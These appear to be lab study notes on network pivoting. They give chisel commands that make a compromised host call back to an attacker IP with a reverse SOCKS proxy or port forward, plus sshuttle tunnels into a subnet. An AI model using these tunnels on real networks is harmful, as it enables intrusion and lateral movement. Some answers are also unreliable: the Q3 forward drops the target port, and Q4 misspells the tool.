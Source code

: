 
Q2: What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
A: ./chisel client 172.16.0.200:4242 R:socks &

## hint command: ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

Q3: How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
A: ./chisel client 172.16.0.200:1337 R:33060:172.16.0.100 &

## hint command syntax : ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &


Q4: If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
A: ./chisal client 172.16.0.5:4444 8000:172.16.0.10:80

## hint command syntax:  ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT



 sshuttle:
 ---------


 this can be install on kali with simple command 

 command: sudo apt install sshuttle


 ## The base command for connecting to a server with sshuttle is as follows:

 command:  sshuttle -r username@address subnet  
 

 command Example:


  ## In our fictional 172.16.0.x network with a compromised server at 172.16.0.5, the command may look something like this:
 
 command:  sshuttle -r user@172.16.0.5 172.16.0.0/24

  they would be user password and then proxy established

  rather then specifing subnet we would us -N that set it autometicly based on compromise server routing table 

  so command like this 

  command syntax: sshuttle -r username@address -N
